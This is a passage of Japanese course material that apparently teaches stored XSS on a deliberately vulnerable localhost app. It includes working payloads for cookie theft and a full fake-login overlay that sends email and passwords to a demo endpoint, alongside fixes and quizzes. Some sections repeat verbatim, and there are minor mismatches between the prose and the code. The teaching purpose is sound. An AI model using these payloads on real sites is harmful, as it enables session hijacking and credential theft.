return Response(html, content_type="text/html")
if __name__ == "__main__":
app.run(debug=True)なお、Flask の Jinja2 テンプレートには通常、自動エスケープの仕組みがあります。危険なのは、上記のように「ユーザ入力を含む HTML 文字列を自分で組み立て、そのまま HTML として返す」ような実装です。
8 蓄積型XSS（Stored XSS）
8.1 反射型XSSの振り返りと限界
前のセクションの演習では、URLのクエリパラメータ ?name=<ペイロード>
を使った反射型XSSを体験しました。
http://localhost:3000/news?name=<img src=x onerror="alert('XSS')">この攻撃には 致命的な制約 があります。攻撃者は被害者に 怪しい URL を踏ませなければならない という点です。URLにスクリプトが丸見えの状態では、少し注意深いユーザなら気づいてしまいます。また、ブラウザのURLバーに長くて不審な文字列が表示されるため、フィッシング耐性が低い攻撃です。
8.2 蓄積型XSS（Stored XSS）とは
蓄積型XSSは、攻撃ペイロード (＝悪意あるスクリプト) をデータベースなどに保存することで、ページを訪問した全ユーザを攻撃する手法 となります。
- 攻撃者がペイロードを DB に保存する
- 被害者が「普通のURL」でページを開く
- DB から取り出したペイロードがブラウザで実行される
- Cookie や個人情報が盗まれる
8.2.1 反射型XSS と 蓄積型XSS の比較
| 観点 | 反射型XSS | 蓄積型XSS |
|---|---|---|
| ペイロードの場所 | URLパラメータ | データベース |
| 攻撃の持続性 | 1回限り | 削除されるまで永続 |
| 被害者へのURL | 不審なURLを踏ませる必要あり | 普通の見た目のURLでよい |
| 被害者の数 | 1人（URLを踏んだ人） | そのページを訪れた全員 |
| 発見の難しさ | 比較的容易（URLを見れば分かる） | 困難（DBに潜んでいる） |
プロンプト例
反射型XSS と蓄積型XSS の違いを整理してください。どちらが攻撃者にとって有利で、どちらが被害者にとって発見しやすいですか？
8.3 プロジェクトにおける実装
この web-sec-playground-2
には、ユーザが自分のプロフィール（aboutContent）を自由に編集し、公開URLで表示できる機能があります。
8.3.1 ここのセクションで使用するページとAPI
| パス | 役割 |
|---|---|
/member/about |
ログイン済みユーザがプロフィールを編集するページ |
/api/about-draft |
プロフィールを DB に保存する API（認証必須） |
/about/[slug] |
誰でもアクセスできる公開プロフィールページ |
/api/xss |
盗まれた Cookie を受け取るAPI（デモ用） |
プロンプト例
ウェブアプリ開発の文脈で「スラグ」とはなんですか。
/about/[slug]のような動的ルーティングに使われているのですが・・・。
8.3.2 XSS 攻撃に対する脆弱性を含む危険なコード
dangerouslySetInnerHTML は React
が「アプリ開発者の責任でHTMLを直接埋め込む」という宣言です。
dangerousという名前が示す通り、サニタイズなしで使うと XSS が成立します。
8.4 📝演習 — Stored XSSを体験する
まず npm run dev でアプリを起動してください。
8.4.1 攻撃者としてペイロードを仕込む
http://localhost:3000/loginからログインしてください。- 公開プロフィールの確認・編集 (
http://localhost:3000/member/about) を開いてください。 - 公開URL に任意のスラグを設定 (例:
hogehoge) してください。 - コンテンツ に以下を入力して「更新」をクリックしてください
<img src=x onerror="fetch('/api/xss?c='+document.cookie)">- 公開URLのリンク（
/about/hogehoge）をクリックして動作を確認してください
8.4.2 被害者としてページを訪問する
「別のブラウザ」または「シークレットウィンドウ」で以下にアクセスしてください。
http://localhost:3000/about/hogehogeなぜ別ブラウザが必要か
XSS 自体は同じブラウザでも発火しますが、「攻撃者と同じ cart_session_id
を盗んでも意味がない」ため、被害者役として別のセッション（別ブラウザ）を用意します。別ブラウザでショップを開いてカートを操作しておくと、その
cart_session_id がペイロードで盗まれることを確認できます。
http://localhost:3000/about/hogehoge という URL
自体には不審な点はなく、見た目は完全に普通の URL です。しかし、蓄積型 XSS
の恐ろしい点は、ページを開いた瞬間に document.cookie の内容が /api/xss
へ自動的に送信されてしまうことです。
8.4.3 盗まれた Cookie を確認する
npx prisma studio から stolen_contents テーブルを開いて、被害者の
Cookie が記録されていることを確認してください。
8.5 なぜ cart_session_id が盗まれるのか
document.cookie で取得できるのは httpOnly: true
が設定されていない Cookie だけです。
| Cookie名 | httpOnly | JavaScriptから取得 | 盗まれるか |
|---|---|---|---|
session_id |
true |
不可 | ✅ 盗まれない |
cart_session_id |
false（💀） |
可能 | 🚨 盗まれる |
region |
false |
可能 | 🚨 盗まれる |
/api/cart/route.ts では httpOnly: true
がコメントアウトされており（💀マーク付き）、これがXSSによるセッションハイジャックを可能にしています。盗んだ
cart_session_id を使えば、被害者のカートを自由に操作できます。
プロンプト例
Cookie の
httpOnly属性をつけ忘れると、XSS 攻撃でセッション ID が盗まれると聞きました。どのようなルートで盗まれるのか、具体的な流れを教えてください。
8.6 防止策
8.6.1 1. DOMPurify によるサニタイズ (AboutView コンポーネントを使う)
このプロジェクトには既に安全な表示コンポーネントが実装されています。
const sanitizedContent = DOMPurify.sanitize(about.aboutContent, {
ALLOWED_TAGS: ["b", "i", "font", "br"], // 許可するタグを明示
ALLOWED_ATTR: ["color", "size"], // 許可する属性を明示
});DOMPurify は「許可リスト方式
(ホワイトリスト方式)」で動作します。<script> や onerror=
などの危険な要素は 削除されます（エスケープではなく削除）。
8.6.2 2. React のデフォルトエスケープ
HTMLタグを含む文字列をエスケープ処理して表示するだけであれば、dangerouslySetInnerHTML
ではなく div を使用することが最善です。
// 💀 危険：サニタイズなしでHTMLを直接埋め込む
<div dangerouslySetInnerHTML={{ __html: user.aboutContent }} />
// ✅ 安全：Reactが自動的にエスケープする
<div>{user.aboutContent}</div>8.6.3 3. httpOnly: true の設定
XSSが成立してしまった場合でも、httpOnly: true の Cookie は JavaScriptから読み取れない
ため、セッションハイジャックを防ぐ最後の防衛線になります。
cookieStore.set("cart_session_id", sessionId, {
httpOnly: true, // JavaScriptから読み取り不可
sameSite: "lax",
secure: true, // 本番環境では必須
});8.7 定着確認
以下の説明は「正しい」か「正しくない」かを答えよ。
- 蓄積型 XSS は、反射型 XSS と異なり、攻撃者が被害者に不審なURLを踏ませる必要がない。
- 答え：正しい。
ペイロードは DB に保存されているため、被害者は普通の見た目のURLにアクセスするだけで攻撃を受けます。
- 答え：正しい。
httpOnly: trueが設定された Cookie は、XSS 攻撃によって JavaScript から盗まれることがない。- 答え：正しい。
httpOnlyCookie は JavaScript から値を読み取れないため、document.cookieによる窃取ができません。ただし XSS そのものを防ぐ対策ではないので注意してください。
- 答え：正しい。
- DOMPurify を使ったサニタイズでは、危険なタグをエスケープして無害化する。
- 答え：正しくない。
DOMPurify は許可リストにないタグや属性を「削除」します。エスケープではなく削除します。
- 答え：正しくない。
- Next.js においては
dangerouslySetInnerHTMLを{}による通常の展開に書き換えるだけで、XSS を防ぐことができる。- 答え：正しい。
React はデフォルトで<や>をエスケープするため、{}での展開ではスクリプトが実行されません。
- 答え：正しい。
9 蓄積型XSS（Stored XSS）応用編 — フィッシングオーバーレイ
9.1 前のセクションとの違い
前のセクション（Cookie 窃取の演習）では、次のペイロードで Cookie を盗む Stored XSS を体験しました。
<img src=x onerror="fetch('/api/xss?c='+document.cookie)">この攻撃は強力ですが、httpOnly: true が設定された Cookie
には届きません。
本演習のテーマ：httpOnly
による防御が効かない、より深刻な攻撃を体験します。
このセクションでは学習目的のために意図的に脆弱な設定を使います。実験は必ず
localhost
の学習用環境でのみ実施し、外部のサービスには絶対に行わないでください。
本演習では CSS + JS を組み合わせた フィッシングオーバーレイを使い、被害者に偽のログインフォームへ認証情報（メール＋パスワード）を直接入力させる攻撃を実装します。
httpOnly: true は Cookie を JavaScript
から隠しますが、ユーザが自分でフォームに入力した値を守ることはできません。Cookie
の保護と、フォーム入力の保護は別々に考える必要があります。
9.2 フィッシングオーバーレイ攻撃とは
攻撃の構造は、次のようになります。
- 攻撃者が CSS + JS のペイロードを DBに保存する。
- 被害者が普通のURLでページを開く。
- 画面全体を覆う半透明オーバーレイが出現
- 「セッションの有効期限が切れました」と表示
- 被害者がメール・パスワードを入力して送信
- 認証情報が攻撃者のサーバに送信される
- オーバーレイが消え、本物の /login にリダイレクト
- 被害者はログインし直せたと思い込む
9.2.1 なぜ Cookie 窃取より危険か
| 観点 | Cookie 窃取 | フィッシングオーバーレイ |
|---|---|---|
| 盗めるもの | Cookie（httpOnly なし） |
平文パスワード |
httpOnly の防御 |
有効 | 無効（JS でフォーム入力値を読むだけ） |
| 被害者の気づきやすさ | 気づかない | 「セッション切れ」に見える → 気づかない |
| 他サービスへの影響 | 限定的 | パスワード使い回しで全サービスに波及 |
プロンプト例
position: fixedとz-index: 99999を使うと既存のページより前面に要素を重ねられるのはなぜですか？ブラウザのレイアウト仕様と関係していますか？
9.2.2 CSS の position: fixed + z-index が鍵
z-index: 99999 の要素は、ページ上のすべての要素より前面に表示されます。また
position: fixed
は「ブラウザのビューポート基準で固定」するため、スクロールしても逃げられません。そして、width/height
を 100vw/100vh することで画面全体を完全に覆うことができてしまいます。
本来は UI レイアウトのための仕様でしが、XSS が成立した瞬間、攻撃者がこれを自由に悪用できることに注目してください。
9.3 攻撃ペイロードの詳細
以下の 3 パートがどのように組み合わさって攻撃が成立するか、順番に確認してください。
9.3.1 Part A：CSS — オーバーレイとモーダルの外観
<style>
#xss-overlay {
position: fixed; top: 0; left: 0;
width: 100vw; height: 100vh;
background: rgba(0, 0, 0, 0.8);
z-index: 99999;
display: flex; align-items: center; justify-content: center;
font-family: sans-serif;
}
#xss-modal {
background: #fff; border-radius: 10px;
padding: 36px 32px; width: 460px;
box-shadow: 0 8px 32px rgba(0, 0, 0, 0.35);
}
#xss-modal h2 { margin: 0 0 8px; font-size: 18px; color: #111; }
#xss-modal p { margin: 0 0 20px; font-size: 13px; color: #555; }
#xss-modal input {
display: block; width: 100%; box-sizing: border-box;
padding: 10px 12px; margin-bottom: 12px;
border: 1px solid #d1d5db; border-radius: 6px; font-size: 14px;
}
#xss-modal button {
width: 100%; padding: 11px;
background: #4f46e5; color: #fff; border: none;
border-radius: 6px; font-size: 14px; cursor: pointer;
}
#xss-modal button:hover { background: #4338ca; }
#xss-modal .close-link {
display: block; margin-top: 14px;
text-align: center; font-size: 12px; color: #6b7280; cursor: pointer;
}
</style>rgba(0,0,0,0.65)の半透明黒で背景を暗くし、本物のページが見えることで「正規のサイト上にダイアログが出た」と錯覚させていることに注目してください- モーダルのデザインはこのアプリのログインページに合わせて調整してあります
9.3.2 Part B：HTML — 偽ダイアログの構造
<div id="xss-overlay">
<div id="xss-modal">
<h2>⚠️ セッションの有効期限が切れました</h2>
<p>セキュリティのため、再度ログインしてください。</p>
<form id="xss-form">
<input type="email" id="xss-email" placeholder="メールアドレス"
autocomplete="email">
<input type="password" id="xss-pass" placeholder="パスワード"
autocomplete="current-password">
<button type="submit">ログイン</button>
</form>
</div>
</div>autocomplete="current-password"を指定するとブラウザのパスワードマネージャーが自動入力の対象となります。被害者がワンクリックで認証情報を入力してしまう点に注目してください。
9.3.3 Part C：JS — 認証情報の送信と証拠隠滅
<script>
document.getElementById('xss-form').addEventListener('submit', function(e) {
e.preventDefault();
const email = document.getElementById('xss-email').value;
const pass = document.getElementById('xss-pass').value;
fetch('/api/xss?c=' + encodeURIComponent('email=' + email + '&pass=' + pass));
document.getElementById('xss-overlay').remove();
location.href = '/';
});
document.getElementById('xss-close').addEventListener('click', function() {
document.getElementById('xss-overlay').remove();
});
</script>fetch('/api/xss?c=...')でメール・パスワードをデモ用エンドポイントに送信しています- 送信直後にオーバーレイを
remove()し、/へリダイレクトします。被害者は「ログインし直せた」と思いページを普通に使い続けます e.preventDefault()で実際のフォーム送信（ページ遷移）は起こさず、バックグラウンドのfetchだけ実行しています
プロンプト例
このコードで
e.preventDefault()を呼んでいる理由を説明してください。また、fetch()の直後にlocation.href = '/login'を実行している攻撃者の意図は何ですか？
9.4 📝演習 — フィッシングオーバーレイを体験する
まず npm run dev でアプリを起動してください。
9.4.1 1. 攻撃者としてペイロードを仕込む
http://localhost:3000/loginからログインする。http://localhost:3000/member/aboutを開く。- 公開URL に任意のスラグを設定 (例:
piyopiyo) する - コンテンツ に以下のペイロード全体を貼り付けて「更新」をクリックしてください
<style>
#xss-overlay {
position: fixed; top: 0; left: 0;
width: 100vw; height: 100vh;
background: rgba(0, 0, 0, 0.8);
z-index: 99999;
display: flex; align-items: center; justify-content: center;
font-family: sans-serif;
}
#xss-modal {
background: #fff; border-radius: 10px;
padding: 36px 32px; width: 460px;
box-shadow: 0 8px 32px rgba(0, 0, 0, 0.35);
}
#xss-modal h2 { margin: 0 0 8px; font-size: 18px; color: #111; }
#xss-modal p { margin: 0 0 20px; font-size: 13px; color: #555; }
#xss-modal input {
display: block; width: 100%; box-sizing: border-box;
padding: 10px 12px; margin-bottom: 12px;
border: 1px solid #d1d5db; border-radius: 6px; font-size: 14px;
}
#xss-modal button {
width: 100%; padding: 11px;
background: #4f46e5; color: #fff; border: none;
border-radius: 6px; font-size: 14px; cursor: pointer;
}
#xss-modal button:hover { background: #4338ca; }
#xss-modal .close-link {
display: block; margin-top: 14px;
text-align: center; font-size: 12px; color: #6b7280; cursor: pointer;
}
</style>
<div id="xss-overlay">
<div id="xss-modal">
<h2>⚠️ セッションの有効期限が切れました</h2>
<p>セキュリティのため、再度ログインしてください。</p>
<form id="xss-form">
<input type="email" id="xss-email" placeholder="メールアドレス"
autocomplete="email">
<input type="password" id="xss-pass" placeholder="パスワード"
autocomplete="current-password">
<button type="submit">ログイン</button>
</form>
</div>
</div>
<script>
document.getElementById('xss-form').addEventListener('submit', function(e) {
e.preventDefault();
const email = document.getElementById('xss-email').value;
const pass = document.getElementById('xss-pass').value;
fetch('/api/xss?c=' + encodeURIComponent('email=' + email + '&pass=' + pass));
document.getElementById('xss-overlay').remove();
location.href = '/';
});
document.getElementById('xss-close').addEventListener('click', function() {
document.getElementById('xss-overlay').remove();
});
</script>9.4.2 2. 被害者としてページを訪問する
別のブラウザまたはシークレットウィンドウで以下にアクセスしてください。
http://localhost:3000/about/piyopiyoURLは完全に普通の見た目です。 /about/piyopiyo というパスに
XSS
を示す文字列は含まれていません。にもかかわらず、ページを開いた瞬間にオーバーレイが表示されることを確認してください。
9.4.3 3. 認証情報を入力して送信する
- オーバーレイが表示されたら、ダミーのメールアドレスとパスワードを入力してください。
- 「ログイン」ボタンをクリックしてください。
- オーバーレイが消え、トップページページにリダイレクトされることを確認してください。
9.4.4 4. 盗まれた認証情報を確認する
npx prisma studio から stolen_contents
テーブルを開いて、content
列に入力したメール・パスワードが記録されていること😭を確認してください。
9.5 なぜ /member/about の Preview では攻撃が成立しないのか
/member/about の Preview セクションは AboutView
コンポーネントを使っており、 DOMPurify.sanitize() が適用されるため
<style> や <script> タグが除去されます。
const sanitizedContent = DOMPurify.sanitize(about.aboutContent, {
ALLOWED_TAGS: ["b", "i", "font", "br"], // 許可するタグ
ALLOWED_ATTR: ["color", "size"], // 許可する属性
});一方、公開ページ /about/[slug]
ではサニタイズなしで直接出力しています。
この非対称性が脆弱性を生みます。編集画面では問題なく見えるが、公開ページでは攻撃が成立する というケースは実際のバグとして発生しやすいパターンです。
プロンプト例
同じアプリで「編集プレビューでは XSS が動かないのに、公開ページでは動く」という非対称性はなぜ起きますか？このようなバグが実際のアプリで発生しやすい理由についても教えてください。
9.6 防止策
9.6.1 1. DOMPurify によるサニタイズ（AboutView コンポーネントを使う）
/about/[slug]/page.tsx を以下のように変更してください。
import { AboutView } from "@/app/_components/AboutView";
<AboutView about={{
userName: user.name,
aboutSlug: slug,
aboutContent: user.aboutContent,
}} />AboutView 内の DOMPurify は削除方式（許可リスト）で動作するため、<style>,
<script>, onerror などをすべて除去します。
オーバーレイを構成する <style> ブロックも
<div id="xss-overlay"> も削除されるため、
攻撃ペイロードを仕込み直しても画面には何も表示されなくなります。
9.6.2 2. React のデフォルトエスケープ
HTML レンダリングが不要ならば dangerouslySetInnerHTML
を使わないのが最善策となります。
{/* <div dangerouslySetInnerHTML={{ __html: user.aboutContent }} /> */}
<div>{user.aboutContent}</div>9.6.3 3. Content Security Policy（CSP）ヘッダー（発展）
HTTP レスポンスヘッダーに CSP を設定すると、インラインの <style> や
<script> の実行を ブラウザレベルでブロックできます。
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'Next.js では next.config.ts の headers() または
middleware.ts で設定できます。 ただし CSP
はバイパス手法も存在するため、サニタイズの代替ではなく追加の防御層として扱います。詳しくは次週で扱います。
9.6.4 📝演習
/about/[slug]/page.tsx の脆弱性を修正してください。
9.6.5 定着確認
以下の説明は「正しい」か「正しくない」かを答えよ。
httpOnly: trueが設定されていれば、フィッシングオーバーレイによるパスワード窃取を防ぐことができる。- 答え：正しくない。
httpOnlyは Cookie を JavaScript から保護しますが、ユーザが自分でフォームに入力した値を守ることはできません。フォームの入力値は JS から常に読み取れます。
- 答え：正しくない。
dangerouslySetInnerHTMLを使っても、DOMPurify でサニタイズすれば XSS を防げる。- 答え：正しい。
ただし DOMPurify のALLOWED_TAGS/ALLOWED_ATTRの設定が適切に絞り込まれていることが前提です。
- 答え：正しい。
- DOMPurify はブラックリスト方式で動作するため、新しい攻撃手法にも対応できる。
- 答え：正しくない。
DOMPurify は削除方式（許可リスト）で動作します。ブラックリスト方式は既知の悪意あるパターンを列挙する方式であり、新手法には脆弱です。
- 答え：正しくない。
- CSP を設定すれば、サニタイズなしでも XSS を防止できる。
- 答え：正しくない。
CSP にはバイパス手法が存在し、サニタイズの代替にはなりません。サニタイズと組み合わせる多層防御として扱ってください。
- 答え：正しくない。
10 補足
プロンプト例
> React (Next.js) において、dangerouslySetInnerHTML 以外で、XSS
リスクが生じる可能性のある構文、API、実装パターンについて整理してください。
ca58aa831431d99d75298f77b1d54653b44c521d
11 蓄積型XSS（Stored XSS）
11.1 反射型XSSの振り返りと限界
前のセクションの演習では、URLのクエリパラメータ ?name=<ペイロード>
を使った反射型XSSを体験しました。
http://localhost:3000/news?name=<img src=x onerror="alert('XSS')">この攻撃には 致命的な制約 があります。攻撃者は被害者に 怪しい URL を踏ませなければならない という点です。URLにスクリプトが丸見えの状態では、少し注意深いユーザなら気づいてしまいます。また、ブラウザのURLバーに長くて不審な文字列が表示されるため、フィッシング耐性が低い攻撃です。
11.2 蓄積型XSS（Stored XSS）とは
蓄積型XSSは、攻撃ペイロード (＝悪意あるスクリプト) をデータベースなどに保存することで、ページを訪問した全ユーザを攻撃する手法 となります。
- 攻撃者がペイロードを DB に保存する
- 被害者が「普通のURL」でページを開く
- DB から取り出したペイロードがブラウザで実行される
- Cookie や個人情報が盗まれる
11.2.1 反射型XSS と 蓄積型XSS の比較
| 観点 | 反射型XSS | 蓄積型XSS |
|---|---|---|
| ペイロードの場所 | URLパラメータ | データベース |
| 攻撃の持続性 | 1回限り | 削除されるまで永続 |
| 被害者へのURL | 不審なURLを踏ませる必要あり | 普通の見た目のURLでよい |
| 被害者の数 | 1人（URLを踏んだ人） | そのページを訪れた全員 |
| 発見の難しさ | 比較的容易（URLを見れば分かる） | 困難（DBに潜んでいる） |
プロンプト例
反射型XSS と蓄積型XSS の違いを整理してください。どちらが攻撃者にとって有利で、どちらが被害者にとって発見しやすいですか？
11.3 プロジェクトにおける実装
この web-sec-playground-2
には、ユーザが自分のプロフィール（aboutContent）を自由に編集し、公開URLで表示できる機能があります。
11.3.1 ここのセクションで使用するページとAPI
| パス | 役割 |
|---|---|
/member/about |
ログイン済みユーザがプロフィールを編集するページ |
/api/about-draft |
プロフィールを DB に保存する API（認証必須） |
/about/[slug] |
誰でもアクセスできる公開プロフィールページ |
/api/xss |
盗まれた Cookie を受け取るAPI（デモ用） |
プロンプト例
ウェブアプリ開発の文脈で「スラグ」とはなんですか。
/about/[slug]のような動的ルーティングに使われているのですが・・・。
11.3.2 XSS 攻撃に対する脆弱性を含む危険なコード
dangerouslySetInnerHTML は React
が「アプリ開発者の責任でHTMLを直接埋め込む」という宣言です。
dangerousという名前が示す通り、サニタイズなしで使うと XSS が成立します。
11.4 📝演習 — Stored XSSを体験する
まず npm run dev でアプリを起動してください。
11.4.1 攻撃者としてペイロードを仕込む
http://localhost:3000/loginからログインしてください。- 公開プロフィールの確認・編集 (
http://localhost:3000/member/about) を開いてください。 - 公開URL に任意のスラグを設定 (例:
hogehoge) してください。 - コンテンツ に以下を入力して「更新」をクリックしてください
<img src=x onerror="fetch('/api/xss?c='+document.cookie)">- 公開URLのリンク（
/about/hogehoge）をクリックして動作を確認してください
11.4.2 被害者としてページを訪問する
「別のブラウザ」または「シークレットウィンドウ」で以下にアクセスしてください。
http://localhost:3000/about/hogehogeなぜ別ブラウザが必要か
XSS 自体は同じブラウザでも発火しますが、「攻撃者と同じ cart_session_id
を盗んでも意味がない」ため、被害者役として別のセッション（別ブラウザ）を用意します。別ブラウザでショップを開いてカートを操作しておくと、その
cart_session_id がペイロードで盗まれることを確認できます。
http://localhost:3000/about/hogehoge という URL
自体には不審な点はなく、見た目は完全に普通の URL です。しかし、蓄積型 XSS
の恐ろしい点は、ページを開いた瞬間に document.cookie の内容が /api/xss
へ自動的に送信されてしまうことです。
11.4.3 盗まれた Cookie を確認する
npx prisma studio から stolen_contents テーブルを開いて、被害者の
Cookie が記録されていることを確認してください。
11.5 なぜ cart_session_id が盗まれるのか
document.cookie で取得できるのは httpOnly: true
が設定されていない Cookie だけです。
| Cookie名 | httpOnly | JavaScriptから取得 | 盗まれるか |
|---|---|---|---|
session_id |
true |
不可 | ✅ 盗まれない |
cart_session_id |
false（💀） |
可能 | 🚨 盗まれる |
region |
false |
可能 | 🚨 盗まれる |
/api/cart/route.ts では httpOnly: true
がコメントアウトされており（💀マーク付き）、これがXSSによるセッションハイジャックを可能にしています。盗んだ
cart_session_id を使えば、被害者のカートを自由に操作できます。
プロンプト例
Cookie の
httpOnly属性をつけ忘れると、XSS 攻撃でセッション ID が盗まれると聞きました。どのようなルートで盗まれるのか、具体的な流れを教えてください。
11.6 防止策
11.6.1 1. DOMPurify によるサニタイズ (AboutView コンポーネントを使う)
このプロジェクトには既に安全な表示コンポーネントが実装されています。
const sanitizedContent = DOMPurify.sanitize(about.aboutContent, {
ALLOWED_TAGS: ["b", "i", "font", "br"], // 許可するタグを明示
ALLOWED_ATTR: ["color", "size"], // 許可する属性を明示
});DOMPurify は「許可リスト方式
(ホワイトリスト方式)」で動作します。<script> や onerror=
などの危険な要素は 削除されます（エスケープではなく削除）。
11.6.2 2. React のデフォルトエスケープ
HTMLタグを含む文字列をエスケープ処理して表示するだけであれば、dangerouslySetInnerHTML
ではなく div を使用することが最善です。
// 💀 危険：サニタイズなしでHTMLを直接埋め込む
<div dangerouslySetInnerHTML={{ __html: user.aboutContent }} />
// ✅ 安全：Reactが自動的にエスケープする
<div>{user.aboutContent}</div>11.6.3 3. httpOnly: true の設定
XSSが成立してしまった場合でも、httpOnly: true の Cookie は JavaScriptから読み取れない
ため、セッションハイジャックを防ぐ最後の防衛線になります。
cookieStore.set("cart_session_id", sessionId, {
httpOnly: true, // JavaScriptから読み取り不可
sameSite: "lax",
secure: true, // 本番環境では必須
});11.7 定着確認
以下の説明は「正しい」か「正しくない」かを答えよ。
- 蓄積型 XSS は、反射型 XSS と異なり、攻撃者が被害者に不審なURLを踏ませる必要がない。
- 答え：正しい。
ペイロードは DB に保存されているため、被害者は普通の見た目のURLにアクセスするだけで攻撃を受けます。
- 答え：正しい。
httpOnly: trueが設定された Cookie は、XSS 攻撃によって JavaScript から盗まれることがない。- 答え：正しい。
httpOnlyCookie は JavaScript から値を読み取れないため、document.cookieによる窃取ができません。ただし XSS そのものを防ぐ対策ではないので注意してください。
- 答え：正しい。
- DOMPurify を使ったサニタイズでは、危険なタグをエスケープして無害化する。
- 答え：正しくない。
DOMPurify は許可リストにないタグや属性を「削除」します。エスケープではなく削除します。
- 答え：正しくない。
- Next.js においては
dangerouslySetInnerHTMLを{}による通常の展開に書き換えるだけで、XSS を防ぐことができる。- 答え：正しい。
React はデフォルトで<や>をエスケープするため、{}での展開ではスクリプトが実行されません。
- 答え：正しい。
12 蓄積型XSS（Stored XSS）応用編 — フィッシングオーバーレイ
12.1 前のセクションとの違い
前のセクション（Cookie 窃取の演習）では、次のペイロードで Cookie を盗む Stored XSS を体験しました。
<img src=x onerror="fetch('/api/xss?c='+document.cookie)">この攻撃は強力ですが、httpOnly: true が設定された Cookie
には届きません。
本演習のテーマ：httpOnly
による防御が効かない、より深刻な攻撃を体験します。
このセクションでは学習目的のために意図的に脆弱な設定を使います。実験は必ず
localhost
の学習用環境でのみ実施し、外部のサービスには絶対に行わないでください。
本演習では CSS + JS を組み合わせた フィッシングオーバーレイを使い、被害者に偽のログインフォームへ認証情報（メール＋パスワード）を直接入力させる攻撃を実装します。
httpOnly: true は Cookie を JavaScript
から隠しますが、ユーザが自分でフォームに入力した値を守ることはできません。Cookie
の保護と、フォーム入力の保護は別々に考える必要があります。
12.2 フィッシングオーバーレイ攻撃とは
攻撃の構造は、次のようになります。
- 攻撃者が CSS + JS のペイロードを DBに保存する。
- 被害者が普通のURLでページを開く。
- 画面全体を覆う半透明オーバーレイが出現
- 「セッションの有効期限が切れました」と表示
- 被害者がメール・パスワードを入力して送信
- 認証情報が攻撃者のサーバに送信される
- オーバーレイが消え、本物の /login にリダイレクト
- 被害者はログインし直せたと思い込む
12.2.1 なぜ Cookie 窃取より危険か
| 観点 | Cookie 窃取 | フィッシングオーバーレイ |
|---|---|---|
| 盗めるもの | Cookie（httpOnly なし） |
平文パスワード |
httpOnly の防御 |
有効 | 無効（JS でフォーム入力値を読むだけ） |
| 被害者の気づきやすさ | 気づかない | 「セッション切れ」に見える → 気づかない |
| 他サービスへの影響 | 限定的 | パスワード使い回しで全サービスに波及 |
プロンプト例
position: fixedとz-index: 99999を使うと既存のページより前面に要素を重ねられるのはなぜですか？ブラウザのレイアウト仕様と関係していますか？
12.2.2 CSS の position: fixed + z-index が鍵
z-index: 99999 の要素は、ページ上のすべての要素より前面に表示されます。また
position: fixed
は「ブラウザのビューポート基準で固定」するため、スクロールしても逃げられません。そして、width/height
を 100vw/100vh することで画面全体を完全に覆うことができてしまいます。
本来は UI レイアウトのための仕様でしが、XSS が成立した瞬間、攻撃者がこれを自由に悪用できることに注目してください。
12.3 攻撃ペイロードの詳細
以下の 3 パートがどのように組み合わさって攻撃が成立するか、順番に確認してください。
12.3.1 Part A：CSS — オーバーレイとモーダルの外観
<style>
#xss-overlay {
position: fixed; top: 0; left: 0;
width: 100vw; height: 100vh;
background: rgba(0, 0, 0, 0.8);
z-index: 99999;
display: flex; align-items: center; justify-content: center;
font-family: sans-serif;
}
#xss-modal {
background: #fff; border-radius: 10px;
padding: 36px 32px; width: 460px;
box-shadow: 0 8px 32px rgba(0, 0, 0, 0.35);
}
#xss-modal h2 { margin: 0 0 8px; font-size: 18px; color: #111; }
#xss-modal p { margin: 0 0 20px; font-size: 13px; color: #555; }
#xss-modal input {
display: block; width: 100%; box-sizing: border-box;
padding: 10px 12px; margin-bottom: 12px;
border: 1px solid #d1d5db; border-radius: 6px; font-size: 14px;
}
#xss-modal button {
width: 100%; padding: 11px;
background: #4f46e5; color: #fff; border: none;
border-radius: 6px; font-size: 14px; cursor: pointer;
}
#xss-modal button:hover { background: #4338ca; }
#xss-modal .close-link {
display: block; margin-top: 14px;
text-align: center; font-size: 12px; color: #6b7280; cursor: pointer;
}
</style>rgba(0,0,0,0.65)の半透明黒で背景を暗くし、本物のページが見えることで「正規のサイト上にダイアログが出た」と錯覚させていることに注目してください- モーダルのデザインはこのアプリのログインページに合わせて調整してあります
12.3.2 Part B：HTML — 偽ダイアログの構造
<div id="xss-overlay">
<div id="xss-modal">
<h2>⚠️ セッションの有効期限が切れました</h2>
<p>セキュリティのため、再度ログインしてください。</p>
<form id="xss-form">
<input type="email" id="xss-email" placeholder="メールアドレス"
autocomplete="email">
<input type="password" id="xss-pass" placeholder="パスワード"
autocomplete="current-password">
<button type="submit">ログイン</button>
</form>
</div>
</div>autocomplete="current-password"を指定するとブラウザのパスワードマネージャーが自動入力の対象となります。被害者がワンクリックで認証情報を入力してしまう点に注目してください。
12.3.3 Part C：JS — 認証情報の送信と証拠隠滅
<script>
document.getElementById('xss-form').addEventListener('submit', function(e) {
e.preventDefault();
const email = document.getElementById('xss-email').value;
const pass = document.getElementById('xss-pass').value;
fetch('/api/xss?c=' + encodeURIComponent('email=' + email + '&pass=' + pass));
document.getElementById('xss-overlay').remove();
location.href = '/';
});
document.getElementById('xss-close').addEventListener('click', function() {
document.getElementById('xss-overlay').remove();
});
</script>fetch('/api/xss?c=...')でメール・パスワードをデモ用エンドポイントに送信しています- 送信直後にオーバーレイを
remove()し、/へリダイレクトします。被害者は「ログインし直せた」と思いページを普通に使い続けます e.preventDefault()で実際のフォーム送信（ページ遷移）は起こさず、バックグラウンドのfetchだけ実行しています
プロンプト例
このコードで
e.preventDefault()を呼んでいる理由を説明してください。また、fetch()の直後にlocation.href = '/login'を実行している攻撃者の意図は何ですか？
12.4 📝演習 — フィッシングオーバーレイを体験する
まず npm run dev でアプリを起動してください。
12.4.1 1. 攻撃者としてペイロードを仕込む
http://localhost:3000/loginからログインする。http://localhost:3000/member/aboutを開く。- 公開URL に任意のスラグを設定 (例:
piyopiyo) する - コンテンツ に以下のペイロード全体を貼り付けて「更新」をクリックしてください
<style>
#xss-overlay {
position: fixed; top: 0; left: 0;
width: 100vw; height: 100vh;
background: rgba(0, 0, 0, 0.8);
z-index: 99999;
display: flex; align-items: center; justify-content: center;
font-family: sans-serif;
}
#xss-modal {
background: #fff; border-radius: 10px;
padding: 36px 32px; width: 460px;
box-shadow: 0 8px 32px rgba(0, 0, 0, 0.35);
}
#xss-modal h2 { margin: 0 0 8px; font-size: 18px; color: #111; }
#xss-modal p { margin: 0 0 20px; font-size: 13px; color: #555; }
#xss-modal input {
display: block; width: 100%; box-sizing: border-box;
padding: 10px 12px; margin-bottom: 12px;
border: 1px solid #d1d5db; border-radius: 6px; font-size: 14px;
}
#xss-modal button {
width: 100%; padding: 11px;
